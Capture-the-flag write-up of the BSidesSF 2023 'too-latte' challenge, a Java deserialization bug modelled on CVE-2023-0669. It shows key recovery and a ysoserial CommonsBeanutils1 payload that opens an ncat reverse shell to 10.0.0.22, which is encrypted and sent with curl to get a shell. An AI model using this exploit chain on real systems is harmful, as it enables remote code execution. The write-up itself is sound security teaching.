 ```yaml
---
title: 'BSidesSF 2023 Writeups: too-latte (medium-difficulty Java exploitation)'
author: ron
layout: post
categories:
- bsidessf-2023
- ctfs
permalink: "/2023/bsidessf-2023-writeups--too-latte--medium-difficulty-java-exploitation-"
date: '2023-04-23T17:08:44-07:00'
comments_id: '110301420701665432'

---
```


[`too-latte`](https://github.com/BSidesSF/ctf-2023-release/tree/main/too-latte)
is a challenge I wrote based on
[CVE-2023-0669](https://attackerkb.com/topics/mg883Nbeva/cve-2023-0669/rapid7-analysis),
which is an unsafe deserialization vulnerability in Fortra's GoAnywhere MFT
software. I modeled all the vulnerable code off, as much as I could, that
codebase. It's obviously themed quite differently.

<!--more-->
# Write-up

If you use a tool like [jadx](https://github.com/skylot/jadx) to unpack the
servlets, you'll find, through some layers of indirection, this code in
TokenWorker.java (that operates on the `token` parameter):

```java
  public static String unbundle(String token, KeyConfig keyConfig) throws Exception {
    token = token.substring(0, token.indexOf("$"));

    return new String(decompress(verify(decrypt(decode(token.getBytes(StandardCharsets.UTF_8)), keyConfig.getVersion()), keyConfig)), StandardCharsets.UTF_8);
  }
```

The `decode` function decodes the `token` parameter from `Base64`.

The `decrypt` function decrypts the token with a static key. The actual decryption
code is under several layers of indirection, because Java is Java, but the
`TokenEncryptor` class has a key, IV, and algorithm:

```java
    private static final byte[] IV = {1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16};
    private static final String KEY_ALGORITHM = "AES";
    private static final String CIPHER_ALGORITHM = "AES/CBC/PKCS5Padding";

    // [...]

    // This actually gets a key
    private byte[] getInitializationValue() throws Exception {
      return SecretKeyFactory.getInstance("PBKDF2WithHmacSHA1").generateSecret(new PBEKeySpec(new String("cafelatteTokenP@$$wrd".getBytes(), "UTF-8").toCharArray(), new byte[]{12, 56, 72, 86, 73, 99, 35, 44, 35, 97, 45, 45, 89, 23, 33, 67}, 3392, 256)).getEncoded();
    }
```

Instead of figuring out what to do, we can write our own code to call that
function the way we did in `flat-white-extra-shot`:

```java
import java.lang.reflect.Method;
import java.util.Arrays;

public class GetKey {
  public static void main(String[] args) throws Exception {
    Method method = org.bsidessf.ctf.toolatte.TokenEncryptor.class.getDeclaredMethod("getInitializationValue");
    method.setAccessible(true);
    byte []key = (byte[])method.invoke(null);
    System.out.println(Arrays.toString(key));
  }
}
```

Then compile and execute it, using the included .jar file:

```
$ javac -cp .:./TooLatte.jar GetKey.java
$ java -cp .:./TooLatte.jar GetKey
[-48, 63, 50, 98, -65, -28, -41, -100, -93, -34, -28, -105, -49, -1, 22, -54, 125, -117, -46, 123, -78, -120, -11, 104, -35, -98, 61, 65, -11, -55, 79, -20]
```

Now that we have all the crypto information, we can replicate `decrypt()`! The
next thing on our list of functions is `verify()`:

```java
  private static byte[] verify(byte[] data, KeyConfig keyConfig) throws Exception {
    ObjectInputStream objectInputStream = null;
    PublicKey publicKey = getPublicKey(keyConfig);
    ObjectInputStream objectInputStream2 = new ObjectInputStream(new ByteArrayInputStream(data));

    SignedObject signedObject = (SignedObject) objectInputStream2.readObject();

    if (!signedObject.verify(publicKey, Signature.getInstance("SHA512withRSA"))) {
        throw new IOException("Unable to verify signature! Did you send us a Token Request by mistake?");
    }

    byte[] outData = ((SignedContainer) signedObject.getObject()).getData();
    if (objectInputStream2 != null) {
        objectInputStream2.close();
    }
    return outData;
  }
```

If you're familiar with Java security, there's a huge red flag there -
`ObjectInputStream`! That's a deserialization sink - in other words, if we can
control the data going into it (which we can!), we can run arbitrary commands!

Passing the verification doesn't matter, nor does anything after it. We can now
grab [ysoserial](https://github.com/frohoff/ysoserial), create a payload,
encrypt it, and send it along.

First, let's generate a payload (I've intentionally included the necessary
files for `CommonBeanutils1` to work):

```
$ java -jar ./ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 'ncat -e /bin/bash 10.0.0.22 4444' > /tmp/javapayload.ser
```

Then let's use `irb` (interactive Ruby) to encrypt/encode it:

```irb
$ irb
3.1.3 :001 > require 'openssl'
 => true 
3.1.3 :002 > require 'base64'
 => true 
3.1.3 :003 > payload = File.read('/tmp/javapayload.ser')
 => "\xAC\xED\u0000\u0005sr\u0000\u0017java.util.PriorityQueue\x94\xDA0\xB4\xFB?\x82\xB1\u0003\u0000\u0002I\u0000\u0004sizeL\u0000\ncomparatort\u0... 
3.1.3 :004 > cipher = OpenSSL::Cipher.new('AES-256-CBC')
 => #<OpenSSL::Cipher:0x00007fd294a25a58> 
3.1.3 :005 > cipher.encrypt
 => #<OpenSSL::Cipher:0x00007fd294a25a58> 
3.1.3 :006 > cipher.iv = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
 => "\u0001\u0002\u0003\u0004\u0005\u0006\a\b\t\n\v\f\r\u000E\u000F\u0010" 
3.1.3 :007 > cipher.key = "\xd0\x3f\x32\x62\xbf\xe4\xd7\x9c\xa3\xde\xe4\x97\xcf\xff\x16\xca\x7d\x8b\xd2\x7b\xb2\x88\xf5\x68\xdd\x9e\x3d\x41\xf5\xc9\x4f\
xec"
 => "\xD0?2b\xBF\xE4ל\xA3\xDE\xE4\x97\xCF\xFF\u0016\xCA}\x8B\xD2{\xB2\x88\xF5hݞ=A\xF5\xC9O\xEC" 
3.1.3 :008 > puts Base64::urlsafe_encode64(cipher.update(payload) + cipher.final()) + "$2"
iRNXnWJjCrdkfbDk2b[......]
```

Then we start our Netcat listener in one window:

```
$ nc -v -l -p 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

And send that payload in another:

```
$ curl 'http://localhost:8080/validate?token=iRNXnWJjCrdkfbDk2b[......]
java.lang.RuntimeException: InvocationTargetException: java.lang.reflect.InvocationTargetException
```

And in our first window, we get a shell!

```
$ nc -v -l -p 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.0.0.22.
Ncat: Connection from 10.0.0.22:37132.
whoami
tomcat
cat /flag.txt
CTF{good-work-you-saved-humanity}
```
